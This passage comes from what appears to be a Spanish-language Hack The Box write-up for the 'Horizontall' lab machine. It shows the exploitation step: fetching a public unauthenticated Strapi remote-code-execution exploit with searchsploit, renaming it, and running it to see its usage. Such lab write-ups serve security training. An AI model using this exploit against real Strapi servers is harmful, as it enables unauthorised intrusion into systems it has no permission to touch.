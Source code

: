 # Explotación

Nos dirigimos a la carpeta exploit de nuestros directorios de trabajo y nos copiamos el que dice remote code execution (Unauthenticated).

```bash
searchsploit -m multiple/webapps/50239.py
```

Lo renombramos.

```bash
mv 50239.py rce_strapi.py
```

![Hackforce-2022-12-12-00-57-51.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-00-57-51.png)

Ejecutamos el exploit para ver que nos pide.

```bash
python3 rce_strapi.py
```

![Hackforce-2022-12-12-00-59-28.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-00-59-28.png)
